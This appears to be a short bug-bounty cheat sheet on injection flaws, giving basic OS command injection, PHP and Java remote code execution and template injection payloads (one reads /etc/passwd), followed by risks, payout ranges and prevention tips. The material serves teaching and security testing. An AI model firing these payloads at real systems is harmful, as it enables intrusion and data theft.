 **1. OS Command Injection**
```bash
# Basic payload examples:
ping 127.0.0.1 ; ls    # Command chaining
ping $(cat /etc/passwd)  # Command substitution
ping `whoami`          # Backtick execution
ping || dir           # Windows command injection
```

**2. Remote Code Execution (RCE)**
```php
# PHP example:
?page=php://input    # PHP wrapper
?page=expect://id    # PHP expect
?eval=system('ls')   # Direct code execution

# Java example:
${T(java.lang.Runtime).getRuntime().exec('calc.exe')}
```

**3. Server-Side Template Injection**
```python
# Template injection examples:
${7*7}               # Basic test
#{7*7}               # Alternative syntax
${class.getClassLoader()}  # Java class access
{{7*7}}              # Twig/Jinja2 syntax
```

### Risks:
- Complete system compromise
- Data theft or destruction
- Malware installation
- Lateral movement in networks
- Cryptocurrency mining
- Backdoor installation
- Service disruption
- Infrastructure damage
- Ransomware deployment
- Compliance violations

### Bug Bounty Impact:
- **Critical severity** - Often leads to server compromise
- Common in: File processors, admin panels, template engines
- **Payout range**: $1,000-$25,000+

### Prevention:
1. Never pass user input to system commands
2. Use allowlists for permitted commands
3. Implement proper input validation
4. Avoid dangerous PHP functions (eval, system, exec)
5. Use secure template configurations

